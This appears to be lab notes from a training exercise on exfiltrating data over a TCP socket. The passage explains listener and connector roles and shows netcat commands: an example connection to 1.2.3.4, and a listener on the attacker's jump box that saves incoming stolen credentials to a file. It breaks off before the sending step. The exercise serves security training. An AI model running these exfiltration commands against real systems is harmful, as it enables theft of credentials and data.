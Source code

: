 
![Pasted image 20250516174541.png](../../../IMAGES/Pasted%20image%2020250516174541.png)

# Exfiltration using TCP socket
----

This task shows how to exfiltrate data overÂ TCPÂ using data encoding.Â Using theÂ TCPÂ socket is one of the data exfiltration techniques that an attacker may use inÂ a non-secured environment where they know there are no network-based security products.Â If we are in a well-secured environment, then this kind of exfiltration is not recommended.Â This exfiltration type is easy to detect because we rely on non-standard protocols.

Besides theÂ TCPÂ socket, we will also use various other techniques, including data encoding and archiving. One of the benefits of this technique is that it encodes the data during transmission and makes it harder to examine.

The following diagram explains how traditional communications overÂ TCPÂ work. If two machines want to communicate, then one of them has to listen and wait for the incoming traffic. It is similar to how two people talk and communicate, where one of them is listening, and the other person is speaking.Â 

![Connection over TCP/port](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/9931b598f5757bbdfb74004a2a43fe16.png)  

The diagram shows that two hosts communicate overÂ TCPÂ on port 1337 in the following steps:

1. The first machine is listening overÂ TCPÂ on portÂ **1337**
2. The other machine connects to the port specified in step 1. For example,Â **nc 1.2.3.4 1337**
3. The first machine establishes the connection
4. Finally, the sending and receiving data starts. For example, the attacker sends commands and receives results.

Communication overÂ TCPÂ requires two machines, one victim and one attacker machine, to transfer data. Let's use our network environment to practice sending data overÂ TCP. To establish communication overÂ TCP, we require two machines: theÂ victim1.thm.comÂ machine is the victimÂ and the JumpBox,Â jump.thm.com,Â is the attacker's machine.

First, we need to prepare a listener on theÂ **JumpBox**Â on a port you specify. In our case, we chooseÂ portÂ 8080.  

Listening on portTCP/8080 in the JumpBox  

```markup
thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data
Listening on [0.0.0.0] (family 0, port 8080)
```
